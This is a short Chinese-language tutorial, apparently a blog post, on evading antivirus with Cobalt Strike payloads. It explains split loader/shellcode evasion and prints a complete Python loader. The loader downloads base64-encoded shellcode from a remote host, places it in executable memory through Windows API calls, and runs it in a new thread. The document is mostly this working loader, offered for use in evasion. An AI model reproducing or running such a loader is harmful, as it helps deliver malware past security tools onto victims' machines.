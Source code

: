 CS免杀-py加载器原理
============

最近在学习cs免杀，由于比较菜只懂python语言，就先了解py是如何实现加载shellcode写入内存的。

shellcode是一段用于利用软件漏洞而执行的代码，shellcode loader是用来运行此代码的加载器

shellcode比作子弹的话，loader就是把枪，两者缺一不可

&gt;枪和子弹在一起才有威胁性肯定不让过安检啊  
&gt;当只有loader这边枪时，没子弹构不成威胁，所以可能会绕过免杀  
&gt;当只有shellcode时，只有子弹没有枪，也可能会绕过免杀

上面就是分离免杀的大致原理,将loader上传到主机，用loader加载shellcode

shellcode
=========

我们在用cs生成payload时，会生成一段特定编程语言的代码（以python为例）

shellcode实际上是一段操作代码，计算机实现特定恶意功能的机器码转换成16进制

里面一长串\\xfc样式的16进制代码，这就是子弹shellcode

但光有子弹不行，所以我们需要一把枪loader才能让他发挥作用。

loader加载器
=========

这里找了一个网上的py加载器

```php
import ctypes
import requests
import b ase64

scode = requests.get(&quot;http://192.168.1.1/123.txt&quot;)
shellcode = bytearray(b ase64.b64decode(scode.text).decode('hex'))

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_uint64(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleO bject(
                                        ctypes.c_int(handle),
                                        ctypes.c_int(-1))                                     
```
